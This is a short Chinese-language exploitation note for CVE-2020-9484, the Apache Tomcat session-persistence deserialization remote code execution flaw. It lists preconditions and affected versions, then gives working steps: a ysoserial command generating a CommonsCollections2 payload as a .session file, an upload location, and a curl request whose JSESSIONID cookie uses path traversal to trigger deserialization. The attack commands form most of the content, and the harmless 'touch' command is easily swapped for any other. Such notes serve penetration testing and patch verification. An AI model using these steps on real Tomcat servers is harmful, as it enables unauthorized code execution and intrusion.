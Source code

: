 ## CVE-2020-9484 Session 持久化反序列化 RCE

**利用条件**

1. tomcat/lib 或者 WEB-INF/lib 目录下的依赖存在可用的 gadget
2. 存在文件上传功能（传到任意目录都可以，需要知道上传后的目录路径以及文件后缀必须为.session）

**影响版本**

- Apache Tomcat : 10.0.0-M1 to 10.0.0-M4
- Apache Tomcat : 9.0.0.M1 to 9.0.34
- Apache Tomcat : 8.5.0 to 8.5.54
- Apache Tomcat : 7.0.0 to 7.0.103

**漏洞利用**

（1）使用 [ysoserial](https://github.com/frohoff/ysoserial) 生成环境依赖的 gadget 恶意序列化数据：

```sh
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 "touch /tmp/success" > /tmp/payload.session
```

（2）上传 `payload.session` 到 `/usr/local/tomcat/payload.session`（后缀必须为 .session）

（3）访问触发

```sh
$ curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/payload'
```

 [@LFY](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247487697&idx=1&sn=51981a8b60dd05c7836306dfe3957aa0&scene=21#wechat_redirect)

